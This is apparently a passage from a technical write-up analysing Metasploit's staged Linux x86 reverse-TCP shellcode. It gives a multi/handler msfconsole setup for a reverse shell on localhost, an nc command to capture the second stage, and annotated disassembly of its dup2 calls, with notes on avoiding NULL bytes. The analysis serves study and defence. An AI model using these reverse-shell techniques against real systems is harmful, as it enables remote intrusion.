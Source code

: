 <figcaption class="figure-caption">Call `read()` in order to receive data from the server socket, and jump to `ECX` (pointer to the top of the stack), where data is stored</figcaption>

This last block of code allows the shellcode to receive data from the Server Socket. Data is placed on the stack.

It can be converted to the following C code:

```cpp
// fd is the file descriptor of the socket created with socket()
// ECX -> pointer to the top of stack, where data will be stored

read(fd, ECX, 3072);
```

Up until now, I only analyzed the 1st stage of the shellcode. To analyze the 2nd stage, I had to connect to a listening `Server`:

```bash
sudo msfconsole
# msf6 > use exploit/multi/handler
# msf6 exploit(multi/handler) > set PAYLOAD  linux/x86/shell/reverse_nonx_tcp
# msf6 exploit(multi/handler) > set LHOST 127.0.0.1
# msf6 exploit(multi/handler) > set LPORT 4444
# msf6 exploit(multi/handler) > run -j
```

In another terminal window:

```bash
nc 127.0.0.1 4444 > stage2.bin

ndisasm -b 32 -p intel stage2.bin
```

Follows the assembly of the second stage:

```nasm
                            ; save File Descriptor of the Server Socket into EDI
00000000  89FB              mov ebx, edi

                            ; push 0x00000002 and move it into ECX
00000002  6A02              push byte +0x2
00000004  59                pop ecx
```

<figcaption class="figure-caption">The instruction `push byte` is useful when you want to push a 32-bit integer value like `0x00000002` but you have to avoid `NULL` bytes. Moreover, it uses only `2` bytes</figcaption>

```nasm
                            ; push 0x0000002f (63) into EAX
00000005  6A3F              push byte +0x3f
00000007  58                pop eax

                            ; call syscall 63: dup2()
00000008  CD80              int 0x80
```
